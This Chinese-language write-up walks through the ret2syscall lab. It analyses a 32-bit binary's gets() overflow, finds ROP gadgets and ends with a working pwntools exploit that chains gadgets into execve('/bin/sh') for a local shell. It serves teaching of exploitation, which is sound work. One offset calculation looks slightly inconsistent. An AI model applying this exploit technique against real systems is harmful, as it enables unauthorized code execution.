 ## ret2syscall复现与分析

### 技术点

- checksec检查可执行文件与内核安全属性
- 使用反汇编工具（IDA pro）查找缓冲区溢出入口和可利用的源码片段
- 使用二进制调试工具（gdb）查看寄存器与内存内容
- 利用gadgets构造ROP调用系统调用
- 通过ROPgadget工具查找需要的gadgets
- 计算需要覆写的返回地址的偏移
- payload构造

### 分析

首先通过checksec检查可执行文件的保护机制

![image-20230419182517185](https://raw.githubusercontent.com/SuperMaxine/pic-repo/master/img/202304191825229.png)

能够得知以下信息：

- 可执行文件为是一个32位的英特尔x86可执行文件，使用小端序编码。
- 开启了“部分Relocation Read-Only”技术。
- 没有开启“堆栈金丝雀（stack canary）”技术。
- 开启了“No-eXecute”保护技术。
- 没有开启“独立位置可执行（Position Independent Executable）”技术。

接下来通过IDA pro来查看反汇编程序源码：

![image-20230419182748810](https://raw.githubusercontent.com/SuperMaxine/pic-repo/master/img/202304191827832.png)

可以看主函数中明显的缓冲区溢出漏洞入口`get(s)`，但是没有在程序中查找到`/bin/sh`字符串或`system()`函数等易于利用的工具；检查其内存权限属性，也没有找到额外的可执行内存段（如下图）。

![image-20230419183214617](https://raw.githubusercontent.com/SuperMaxine/pic-repo/master/img/202304191832640.png)

没有可以利用的代码也无法自己输入shellcode来获得shell，因此考虑使用ROP(Return Oriented Programming)方法，利用程序中已有的以`ret`结尾的小片段 (gadgets) 来改变某些寄存器或者变量的值，从而控制程序的执行流程。

希望能够构造出系统调用如下：

```
execve("/bin/sh",NULL,NULL)
```

在汇编视角，则需要满足以下寄存器条件并发起系统中断

- eax = 0xb（`execve`的系统调用号）
- ebx = addr('/bin/sh')
- ecx = 0
- edx = 0

当构造好所需寄存器的值后，跳转到任意一个`int 0x80`地址发起系统中断即可实现一次`execve`系统调用。

为了构造寄存器的值，需要利用程序中已有的，以`ret`结尾的程序片段，实现多个片段间的连续跳转和利用，这种程序片段被称为gadgets。通过ROPgadget工具查找需要的gadgets：

![image-20230423110738249](https://raw.githubusercontent.com/SuperMaxine/pic-repo/master/img/202304231107283.png)

控制eax的gadget采用`0x080bb196`位置的`pop eax; ret`。

![image-20230423111106472](https://raw.githubusercontent.com/SuperMaxine/pic-repo/master/img/202304231111498.png)

控制ebx、ecx和edx采用`0x0806eb90 `位置的`pop edx ; pop ecx ; pop ebx ; ret`。

![image-20230423111406420](https://raw.githubusercontent.com/SuperMaxine/pic-repo/master/img/202304231114438.png)

字符串“/bin/sh”程序中仅有一处，即`0x080be408`地址处。

![image-20230423111620018](https://raw.githubusercontent.com/SuperMaxine/pic-repo/master/img/202304231116039.png)

系统中断`int 0x80`在程序中也仅有溢出，即`0x08049421`地址处。

因此构思获得shell的攻击流程如下：

1. 通过`gets()`构造缓冲区溢出攻击，劫持控制流。
2. 覆盖`main()`函数的返回地址为控制eax的gadget地址
3. 在栈中后续内容继续填充希望`pop`进eax寄存器的内容`0xb`
4. 在栈中后续内容（控制eax的gadget的ret地址）继续填充为控制ebx、ecx和edx寄存器的gadget地址
5. 在栈中后续内容继续填充希望`pop`进ebx、ecx、edx寄存器的内容`0`、`0`和字符串“/bin/sh”的地址`0x080be408`
6. 在栈中后续内容（控制ebx、ecx、edx的gadget的ret地址）继续填充为`int 0x80`的地址

### 攻击复现

接下来实现攻击，同上一两题，要先确定`main()`函数返回地址。

![image-20230423115452588](https://raw.githubusercontent.com/SuperMaxine/pic-repo/master/img/202304231154606.png)

![image-20230423115621344](https://raw.githubusercontent.com/SuperMaxine/pic-repo/master/img/202304231156384.png)

使用与上一题一样的步骤，在`call _gets`的地址`0x08048E96`处下断点，可以看到：栈指针寄存器esp此时的地址为`0xffffcf20`，其存放的内容即字符串`s`的地址为`0xffffcf3c`；基址指针寄存器ebp的地址为`0xffffcfab`。通过计算可得，s 相对于 ebp 的偏移为 `0xffffcfab-0xffffcf3c=0x6c`。此时内存结构如下图所示：

![image-20230423120021465](https://raw.githubusercontent.com/SuperMaxine/pic-repo/master/img/202304231200493.png)

根据上述思路编写payload，构造内存结果如下：

![image-20230423165859531](https://raw.githubusercontent.com/SuperMaxine/pic-repo/master/img/202304231658591.png)

最后的payload如下：

```python
#!/usr/bin/env python
from pwn import *

sh = process('./ret2syscall')
pop_eax_ret = 0x080bb196
pop_edx_ecx_ebx_ret = 0x0806eb90
int_0x80 = 0x08049421
binsh = 0x80be408
sh.sendline(b'A' * (0x6c+4) + p32(pop_eax_ret) + p32(0xb) + p32(pop_edx_ecx_ebx_ret) + p32(0) + p32(0) + p32(binsh) + p32(int_0x80))
sh.interactive()
```

运行payload脚本，可以成功得到shell。

![image-20230423114713741](https://raw.githubusercontent.com/SuperMaxine/pic-repo/master/img/202304231147764.png)